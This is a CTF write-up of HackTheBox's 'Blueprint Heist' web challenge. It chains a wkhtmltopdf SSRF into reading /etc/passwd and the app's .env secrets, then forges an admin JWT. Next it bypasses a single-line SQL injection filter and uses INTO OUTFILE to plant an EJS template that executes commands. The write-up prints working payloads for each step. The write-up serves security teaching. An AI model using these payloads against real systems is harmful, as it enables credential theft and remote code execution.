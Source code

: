 ```yaml
---
title: "Challenge, Train, Flag: Blueprint Heist"
summary: “Challenge, Train, Flag explores CTF challenges to enhance cybersecurity skills, focusing on exploiting vulnerabilities like SSRF, JWT forging, and SQL injection in real-world scenarios.”
date: 2024-12-08
tag:
    - Cybersecurity
    - CTF
    - SSRF
    - JWT
    - SQLInjection
    - WebSecurity
    - HackTheBox
    - NodeJS
---
```


# Challenge, Train, Flag: Blueprint Heist

At Atlansec, we are committed to CTFs as a key learning tool under the _learning by doing_ methodology. We believe that facing practical challenges is the best way to develop technical skills and foster creativity. With this section we want to spread the value of CTFs, share _writeups_ of challenges of a certain technical complexity and bring the community closer to a practical and technical approach to learning.

<!-- more -->

### What is a CTF?

Capture the Flag (CTF) competitions are cybersecurity challenges where participants tackle a variety of technical problems to find "flags," which are hidden markers proving successful completion of a task. CTFs simulate real-world scenarios in areas like cryptography, reverse engineering, web security, forensics, and binary exploitation, helping participants build essential cybersecurity skills.

CTFs aren't just competitions; they are a gateway to learning by solving. They teach participants how to think critically, debug complex systems, and adapt under pressure. Each challenge is a story, a puzzle, and a lesson rolled into one.

In this series, we'll explore notable CTF challenges, dive into their technical solutions, and highlight the skills they develop. Welcome to Challenge, Train, Flag!

## Key concepts

- **SSRF (Server-Side Request Forgery):** Technique that allows an attacker to force a server to make HTTP requests on their behalf. Depending on the context, it can be quite critical as it can allow an attacker to access resources within the target's internal network.

- **JSON Web Token (JWT):** An open standard for authenticating and securely transferring information using a token.

- **SQL Injection:** An attack that allows malicious SQL code to be injected into a query to manipulate the database query.

- **wkhtmltopdf:** Library for converting web content (HTML) to PDF.

## The challenge

This time we bring you a challenge from the HTB Business CTF 2024. The challenge is from the web category and although it is listed as easy on the HackTheBox platform, it is one of the most complex web challenges on the platform due to the number of steps that make up the solution.

In this challenge we are given the source code of a NodeJS application and access to a web service running the application.

### Understanding the Application Logic

The challenge starts with access to an application of the urban planning commission. When browsing, we notice that clicking on any of the links generates a POST request to the /download path. Let's review its implementation in the routes file:

```Javascript
router.post("/download", authMiddleware("guest"), (req, res, next) => {
    convertPdf(req, res, next);
});
```

Here we can see that the _convertPdf_ function is responsible for handling the logic of this path. Let's go on to examine its code:

```Javascript
async function convertPdf(req, res, next) {
    try {
        const { url } = req.body;

        if (!isUrl(url)) {
            return next(generateError(400, "Invalid URL"));
        }

        const pdfPath = await generatePdf(url);
        res.sendFile(pdfPath, { root: "." });
    } catch (error) {
        return next(generateError(500, error.message));
    }
}
```

After reading this, we can see that the function makes sure that the parameter it receives is a valid URL before passing it to the _generatePdf_ function. Let's look at the latter next:

```Javascript
async function generatePdf(urls) {
    const pdfFilename = generateRandomFilename();
    const pdfPath = `uploads/${pdfFilename}`;

    try {
        await generatePdfFromUrl(urls, pdfPath);
        return pdfPath;
    } catch (error) {
        throw new Error(`Error generating PDF: ${error.stack}`);
    }
}

async function generatePdfFromUrl(url, pdfPath) {
    return new Promise((resolve, reject) => {
        wkhtmltopdf(url, { output: pdfPath }, (err) => {
            if (err) {
                reject(err);
            } else {
                resolve();
            }
        });
    });
}
```

We note that the _generatePdfFromUrl_ function uses _wkhtmltopdf_ to convert the URL content to a PDF file. This flow opens the door to exploit a **SSRF vulnerability** in the library.

### SSRF to local file read on wkhtmltopdf

Using an attacker-controlled server, we can serve files on a web server to redirect the visitor to local file system locations, in this case converting the SSRF on the server into a way to read internal files such as /etc/passwd. To do this, we create a PHP file with the following content:

```php
<?php header('location:file:///etc/passwd'); ?>
```

By passing the URL of our server as a parameter to the /download path, the generated PDF will contain the contents of the /etc/passwd file of the server making the request.

![result pdf when request to /etc/passwd](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FZQtdU4mXr2tBi4QxRQWN%2Fimagen.png?alt=media&token=8ad9ee1c-663e-4193-8590-fa5d29a05340)

We then modify the PHP file to exfiltrate the application's .env file:

```php
<?php header('location:file:///app/.env'); ?>
```

![result pdf when request to /app/.env](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FRAlxHPUFMbqwzl2hPOfP%2Fimagen.png?alt=media&token=9c0d7a88-b46f-4d5a-9956-d7e23f77a99a)

### JWT Forging

With the key extracted from the .env file, we can sign valid JWT tokens. We use a tool like [JWT.io](https://jwt.io/) to generate a token with the administrator role:

```json
{
  "role": "admin"
}
```

![JWT edition](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2Fk7s7AKs1qYnCLf6jxVxv%2Fimagen.png?alt=media&token=167958e1-2dc9-49d1-99fe-5753b628c43c)

Using the token we have generated, we will make a request to the internal admin panel endpoint with the following structure:

```none
http://127.0.0.1:1337/admin?token=<JWT_admin>
```

In the generated PDF we can see the contents of the admin panel.  While this generates a screenshot of the admin panel, it only takes us halfway to our ultimate goal.

![screenshot of the admin panel](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FN6Qqr0Zla8nrsYfi3GqM%2Fimagen.png?alt=media&token=f96df24b-e38a-44d7-b03f-f5c5140f7a58)

### SQL injection to file upload

Analysing the rest of the application code, we discovered that the GraphQL endpoint is vulnerable to SQL injection in the _getDataByName_ query. However, a robust regular expression is used to filter out malicious entries:

```Javascript
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/\?]/;
    return pattern.test(query);
}
```

A more detailed analysis shows that the expression is not multiline, which allows us to bypass it with a line break (`n`).

- No line break.

![regex matching with string](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FiHyLuPjjbRXIy5NUVxhq%2Fimagen.png?alt=media&token=89160232-b5af-47d0-a3ae-076da913d2fa)

- With a line break.

![regex not matching with string](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FR3kn9C6HhP3Ignbv4dgV%2Fimagen.png?alt=media&token=f2b092a6-503c-4e23-8299-c88c0ecd15ce)

Once this is discovered, we can build a payload for an SQL injection that writes a malicious EJS file to the 404 error path, since the application does not have a path to handle this type of error.

The payload we build should be similar to the following, where we include an EJS template that reads the flag by executing the target binary.

```SQL
' UNION SELECT 1, '<p><%= process.mainModule.require("child_process").execSync("/readflag") %></p>', 2, 3 INTO OUTFILE '/app/views/errors/404.ejs'--
```

With the malicious file in place, we access a non-existent path to throw a 404 error and execute the /readflag command. This gives us access to the contents of the flag.

![Flag](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FeTAq53W6y62vYQRnsHPy%2Fimagen.png?alt=media&token=202cab2a-4da9-4d96-bf7f-8971475f569b)
